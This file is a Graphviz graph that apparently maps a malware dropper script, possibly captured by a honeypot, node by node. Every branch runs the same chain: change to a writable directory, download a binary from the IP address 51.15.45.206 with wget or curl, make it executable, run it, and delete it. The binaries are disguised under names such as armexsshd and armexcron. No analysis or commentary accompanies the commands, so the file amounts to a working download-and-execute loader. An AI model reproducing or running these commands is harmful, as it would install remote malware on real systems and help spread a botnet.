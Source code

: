digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://51.15.45.206/armexntpd "];
10 -> 12 [label=";,"];
12 [label="curl -O http://51.15.45.206/armexntpd "];
12 -> 14 [label=";,"];
14 [label="chmod +x armexntpd "];
14 -> 16 [label=";,"];
16 [label="./armexntpd "];
16 -> 18 [label=";,"];
18 [label="rm -rf armexntpd "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://51.15.45.206/armexsshd "];
30 -> 32 [label=";,"];
32 [label="curl -O http://51.15.45.206/armexsshd "];
32 -> 34 [label=";,"];
34 [label="chmod +x armexsshd "];
34 -> 36 [label=";,"];
36 [label="./armexsshd "];
36 -> 38 [label=";,"];
38 [label="rm -rf armexsshd "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://51.15.45.206/armexopenssh "];
50 -> 52 [label=";,"];
52 [label="curl -O http://51.15.45.206/armexopenssh "];
52 -> 54 [label=";,"];
54 [label="chmod +x armexopenssh "];
54 -> 56 [label=";,"];
56 [label="./armexopenssh "];
56 -> 58 [label=";,"];
58 [label="rm -rf armexopenssh "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://51.15.45.206/armexbash "];
70 -> 72 [label=";,"];
72 [label="curl -O http://51.15.45.206/armexbash "];
72 -> 74 [label=";,"];
74 [label="chmod +x armexbash "];
74 -> 76 [label=";,"];
76 [label="./armexbash "];
76 -> 78 [label=";,"];
78 [label="rm -rf armexbash "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://51.15.45.206/armextftp "];
90 -> 92 [label=";,"];
92 [label="curl -O http://51.15.45.206/armextftp "];
92 -> 94 [label=";,"];
94 [label="chmod +x armextftp "];
94 -> 96 [label=";,"];
96 [label="./armextftp "];
96 -> 98 [label=";,"];
98 [label="rm -rf armextftp "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://51.15.45.206/armexwget "];
110 -> 112 [label=";,"];
112 [label="curl -O http://51.15.45.206/armexwget "];
112 -> 114 [label=";,"];
114 [label="chmod +x armexwget "];
114 -> 116 [label=";,"];
116 [label="./armexwget "];
116 -> 118 [label=";,"];
118 [label="rm -rf armexwget "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://51.15.45.206/armexcron "];
130 -> 132 [label=";,"];
132 [label="curl -O http://51.15.45.206/armexcron "];
132 -> 134 [label=";,"];
134 [label="chmod +x armexcron "];
134 -> 136 [label=";,"];
136 [label="./armexcron "];
136 -> 138 [label=";,"];
138 [label="rm -rf armexcron "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://51.15.45.206/armexftp "];
150 -> 152 [label=";,"];
152 [label="curl -O http://51.15.45.206/armexftp "];
152 -> 154 [label=";,"];
154 [label="chmod +x armexftp "];
154 -> 156 [label=";,"];
156 [label="./armexftp "];
156 -> 158 [label=";,"];
158 [label="rm -rf armexftp "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://51.15.45.206/armexpftp "];
170 -> 172 [label=";,"];
172 [label="curl -O http://51.15.45.206/armexpftp "];
172 -> 174 [label=";,"];
174 [label="chmod +x armexpftp "];
174 -> 176 [label=";,"];
176 [label="./armexpftp "];
176 -> 178 [label=";,"];
178 [label="rm -rf armexpftp "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://51.15.45.206/armexsh "];
190 -> 192 [label=";,"];
192 [label="curl -O http://51.15.45.206/armexsh "];
192 -> 194 [label=";,"];
194 [label="chmod +x armexsh "];
194 -> 196 [label=";,"];
196 [label="./armexsh "];
196 -> 198 [label=";,"];
198 [label="rm -rf armexsh "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://51.15.45.206/armexnut "];
210 -> 212 [label=";,"];
212 [label="curl -O http://51.15.45.206/armexnut "];
212 -> 214 [label=";,"];
214 [label="chmod +x armexnut "];
214 -> 216 [label=";,"];
216 [label="./armexnut "];
216 -> 218 [label=";,"];
218 [label="rm -rf armexnut "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://51.15.45.206/armexapache2 "];
230 -> 232 [label=";,"];
232 [label="curl -O http://51.15.45.206/armexapache2 "];
232 -> 234 [label=";,"];
234 [label="chmod +x armexapache2 "];
234 -> 236 [label=";,"];
236 [label="./armexapache2 "];
236 -> 238 [label=";,"];
238 [label="rm -rf armexapache2 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://51.15.45.206/armextelnetd "];
250 -> 252 [label=";,"];
252 [label="curl -O http://51.15.45.206/armextelnetd "];
252 -> 254 [label=";,"];
254 [label="chmod +x armextelnetd "];
254 -> 256 [label=";,"];
256 [label="./armextelnetd "];
256 -> 257 [label=";,"];
}
